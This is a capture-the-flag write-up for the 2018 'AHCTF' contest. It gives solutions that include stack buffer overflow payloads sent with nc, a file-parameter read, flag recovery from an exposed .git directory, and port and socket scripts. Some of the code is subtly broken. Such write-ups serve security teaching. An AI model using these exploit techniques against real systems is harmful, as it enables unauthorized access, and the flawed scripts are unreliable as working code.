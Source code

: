 
CTF : AHCTF 
LINK: https://www.ahctf.com
AUTHORS: Abraham Adberstein and Abraham Fong 
DATE: Feb 1-7, 2018

----------

**PWN1-EGYPT**
Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack.
pwn1.zip 
**Stack**
| buffer 64 bytes |  ret 4 bytes |

    $ { python -c 'print "a"*64 + "\xef\xbe\xad\xde"'; cat; } | nc 54.186.65.159 10001

**PWN2-UZBEKISTAN**
I bet you can't redirect the code flow of this program.
pwn2.zip
**Solution**
If you take a look at the code of pwn2_client, you can use objdump to find the address of the function print_flag function. Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack. Then what we want to do is override the return address of the main function. 
**Stack**
| buffer 64 bytes | argc  4 bytes | argv 8 bytes | ret 4 bytes |

    $ objdump -d pwn2_client
    $ { python -c 'print "a"*76 + "\x9d\x84\x04\x08"'; cat; } | nc 54.186.65.159 10002

**LINUX-FOREST-SPAIN**
Have you ever heard of the question: "Where does a wise man hide a leaf?"
**Solution**
There is a folder "data" in the current directory. Inside the "data" directory, there hundres of directories where those directories contains text files with base64 encoded strings. First we get folders with the following name patter "\*.txt" and pass the those folder paths to cat, then we use args again to get each line of those files and decode them. Lastly, we grep the flag. 

     $ find -name "*.txt" | xargs -I f cat f | xargs -I % echo "%" | base64 --decode | grep AHCTF

**LINUX3-CHINA**
I'm pretty sure someone is trying to talk to us on port 10001, but I don't think we can [hear] connect to him from the outside.
**Solution**
We just needed to listen to several ports and listen for incoming data from inside the server.
**Solution**

    import socket
    for port in range(23200,23300):
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((hostname,port))
                print s.recv(1024)
            s.close()
        except:
            continue

**WEB4-RUSSIA**
I'm trusting you with my system, please don't use this file to cheat...
Access the challenge at: http://34.216.168.66:8080/dir.php
The flag will be at http://34.216.168.66:8080/flag.txt
**Solution:**
Since the hint was hinting that dir.php was doing something, we passed a common name parameter to see if it did something. 

    http://34.216.168.66:8080/dir.php?file=flag.txt

**WEB6-MOZAMBIQUE**
This is my blog, but you won't find the flag there. I removed it before the last commit.

    http://52.26.43.30/blog

Hint suggests that we need to access past commit data to find a flag. 
Git repository content is written in objects. All of them are stored in .git/objects folder.  First tested to see if it was available by appending /.git after /blog. 
This returned a page with file structure instead of a 404 error, so far so good. 
    http://52.26.43.30/blog/.git 

Git objects can be one of three types: commit, tree and blob.

 - Commit is an information about commit, with current tree (folders and
   files structure) object hash.
 - Tree contains information about folders and files structure - and
   every single folder or file has its own object hash stored in tree
   object. It might be another tree (folder which is one level down
   in the folders structure) or file.
 - Blob is Git object type where files content are saved. In other
   way - if you know an object hash of the particular file, you can
   read content of this file using git cat-file command.

After finding the .git file, we navigate to logs/HEAD file to see history of commits. 
     http://52.26.43.30/blog/.git/logs/HEAD
Here we find two interesting commits with incriminating titles. 
The commit titled *'add flag*' has a hash of `c4db23b282baa2ce1b650dd820f7de00ee82b654` 
where the first 2 chars are the file, and the rest is the name. 
if we navigate to objects/c4/db23blablablabla, we will find ourselves with a file we can download! 

Since we are dealing with git commits, we need to create a dummy Git folder.
In the terminal: 

    $ git init

This will initialize empty Git repository with all required files and folders.
We have to save the downloaded file in your dummy Git folder we created. It is imperative to be sure that you saved it in exactly the same location:

path-to-dummy-git-repository/.git/objects/c4/db23b282baa2ce1b650dd820f7de00ee82b654


These two commands will be used to dig for our key: 
To check the type of object, you can use following command:
$ git cat-file -t c4db23b282baa2ce1b650dd820f7de00ee82b654

To display the content of the object, use this command:
$ git cat-file -p c4db23b282baa2ce1b650dd820f7de00ee82b654

We use these commands to check and read the type of the object. When we look at commit descriptions , we can find information about the actual tree object hash. Remember, the tree contains information about current folder structure. So using the same method (check type and then display content),  we check the tree object we find. 

Once we dig down the tree, eventually we find only one file, index.php and we know it's object hash and type, which is blob! (Remember, a blob  Git object type where files content are saved.)


Once more, git cat file, and you will reveal the contents, which is HTML code. Near the top of the header, we find the Key. :) 





----------


**PROG3-HASHES**
**Solution**
We connect to the server, get the string and strip the value desired to hash. Then, we hash and send it to the server. We loop through this process 100 times to get the flag. 

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159"  
    port = 20005                
    s = socket.socket()  
    
    while True:
        r =  s.recv(1048)
        print r
        if ":" in r:
                string = r.split(':')[1].replace('\n', '').strip()
                hash = hashlib.sha512()
                hash.update(string)
                result = hash.hexdigest() + "\n"
                s.send(result)
        elif r == "":
                break


**PROG4-MATHBOT**
More hashes incoming. Your hands fast enough?
**Solution**
We connect to the server, use a bit of regex to get the number to sum and send it to the server. We loop through this process 100 times to get the flag.

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159" 
    port = 20005               
    s = socket.socket()              
    s.connect((host, port))
    
    while True: 
            #receive connection
            r =  s.recv(1048) 
            print r
            if "+" in r: 
                    result = re.match( r'.*\s*What\sis\s(.*)\s\+\s(.*)', r, re.M|re.I)
                    suma = int(result.group(1)) + int(result.group(2))
                    msg = str(suma) + "\n"
                    s.send(msg)
            elif r == "":
                    break





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMDYwNTgxNzMsLTMyMzgzMDE0NywtMj
EwNjA1ODE3MywtMzIzODMwMTQ3LC0yMTA2MDU4MTczLC0zMjM4
MzAxNDcsLTIxMDYwNTgxNzMsLTg2NjEzMzYzOF19
-->
Write-Up
